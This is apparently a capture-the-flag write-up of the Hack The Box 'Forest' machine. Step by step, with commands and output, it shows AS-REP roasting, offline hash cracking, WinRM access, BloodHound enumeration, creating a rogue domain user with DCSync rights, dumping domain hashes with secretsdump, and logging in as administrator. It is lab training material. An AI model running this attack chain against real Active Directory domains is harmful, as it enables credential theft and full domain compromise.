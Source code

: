 ```yaml
---
title: HTB - Forest
date: 2024-03-16
categories: [CTF, Fullpwn]
tags: [htb, hackthebox, forest, nmap, hashcat, active-directory, dcsync, asreproasting, bloodhound, sharphound, impacket, secretsdump]
img_path: /assets/htb/fullpwn/forest
published: true
image:
    path: machine_info.png
---
```


## HTB: Forest

>[Forest Box](https://app.hackthebox.com/machines/212)

![](forest_htb_diagram.png){: .normal}

## Walkthrough Summary

|Step|Action|Tool|Achieved|
|-|-|-|-|
|1|ASREPRoasting|[GetNPUsers.py](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py)|Obtained the TGT ticket of _svc-alfresco_|
|2|Hash cracked|[Hashcat](https://github.com/hashcat/hashcat)|Obtained clear text password|
|3|Logged into the domain via WinRM|[evil-winrm](https://github.com/Hackplayers/evil-winrm)|Obtained initial foothold|
|4|Credentialed domain enumeration|[SharpHound.py](https://github.com/BloodHoundAD/SharpHound), [BloodHound](https://github.com/BloodHoundAD/BloodHound)|Enumerated privilege escalation path|
|5|Executed privileged escalation path|LOTL*|Created & added a domain user to the required groups|
|6|Assiged user DCSync rights|[DCSync.py](https://github.com/n00py/DCSync)|Obtained _administrator_'s NTLMv2 hash|
|7|DCSync attack|[secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)|Compromised domain|

*_[Living Off The Land](https://encyclopedia.kaspersky.com/glossary/lotl-living-off-the-land/)_

## Attack Chain Reproduction Steps

Obtained the TGT ticket of **_svc-alfresco_** via **ASREPRoasting**:

```bash
$ getnpusers -dc-ip 10.10.10.161 -request 'htb.local/'
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2024-03-15 17:01:22.890339  2024-03-15 16:37:07.184448  0x410200

$krb5asrep$23$svc-alfresco@HTB.LOCAL:1f1...<REDACTED>...588
```

Cracked the password hash offline:

```bash
$ hashcat -m 18200 svc-alfresco_tgt /usr/share/wordlists/rockyou.txt

<SNIP>

$krb5asrep$23$svc-alfresco@HTB.LOCAL:1f1...<REDACTED>...588:s<REDACTED>e

<SNIP>
```

The obtained credentials was subsequently domain-confirmed via [NetExec](https://github.com/Pennyw0rth/NetExec):

```bash
$ nxc smb 10.10.10.161 -u svc-alfresco -p s<REDACTED>e
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\svc-alfresco:s<REDACTED>e
https://github.com/Pennyw0rth/NetExec
```

An initial foothold to the domain was achieved:

```bash
$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p s<REDACTED>e

<SNIP>

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```

The **_user.txt_** file was compromised:

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco> type desktop\user.txt
5a4<REDACTED>f85
```

Domain information was collected and then transferred to the attack host:

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco> upload SharpHound.exe

Info: Uploading /home/kali/htb/forest/SharpHound.exe to C:\Users\svc-alfresco\SharpHound.exe

Data: 965288 bytes of 965288 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc-alfresco> .\SharpHound.exe -c All

*Evil-WinRM* PS C:\Users\svc-alfresco> download 20240315124803_htblocal.zip

Info: Downloading C:\Users\svc-alfresco\20240315124803_htblocal.zip to 20240315124803_htblocal.zip

Info: Download successful!
```

Upon review, two issues stood out:
  - _svc-alfresco_ was member of the [**_Account Operators**_](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#account-operators) group as a result of [**group nesting**](https://learn.microsoft.com/en-us/windows/win32/ad/nesting-a-group-in-another-group) (Figure 1)
  - The _Windows Exchange Permissions_ group had _**WriteDACL**_ permissions over the _HTB.LOCAL_ domain, which means that its members can obtain **DCSync rights** (Figure 2)

![Figure 1: svc-alfresco is a part of the Account Operators group.](forest_account_operators.png)

![Figure 2: The Windows Exchange Permissions group has WriteDACL rights over HTB.LOCAL.](forest_writedacl.png)

Based on the above information, a new domain user account was created and added to the _Windows Exchange Permissions_ and the _Remote Management Users_ group (to allow WinRM remote management):

```bash
# create a new domain user
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user /domain hacker hack3r123 /add
The command completed successfully.

# add user to the groups
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group /domain "Exchange Windows Permissions" hacker /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net localgroup "Remote Management Users" /add hacker
The command completed successfully.
```

The user was then assigned the **DCSync rights**:

```bash
$ sudo python3 DCSync.py -dc htb.local -t ''CN=hacker,CN=Users,DC=htb,DC=local'' ''htb.local\hacker:hack3r123''
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

[*] Starting DCSync Attack against CN=hacker,CN=Users,DC=htb,DC=local
[*] Initializing LDAP connection to htb.local
[*] Using htb.local\hacker account with password ***
[*] LDAP bind OK
[*] Initializing domainDumper()
[*] Initializing LDAPAttack()
[*] Querying domain security descriptor
[*] Success! User hacker now has Replication-Get-Changes-All privileges on the domain
[*] Try using DCSync with secretsdump.py and this user :)
[*] Saved restore state to aclpwn-20240316-103635.restore
```

The **DCSync attack** was performed and the _Administrator_'s NTLMv2 hash was obtained:

```bash
$ sudo /opt/impacket/examples/secretsdump.py htb.local/hacker:hack3r123@10.10.10.161
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad<REDACTED>4ee:326<REDACTED>ea6:::
<SNIP>
[*] Cleaning up...
```

The obtained hash was used to log in as _Administrator_ and achieve **full domain compromise** by obtaining the **_root.txt_** file:

```bash
$ evil-winrm -i 10.10.10.161 -u administrator -p aad<REDACTED>ea6

<SNIP>

*Evil-WinRM* PS C:\Users\Administrator\Documents> *Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\desktop\root.txt
58a<REDACTED>525
```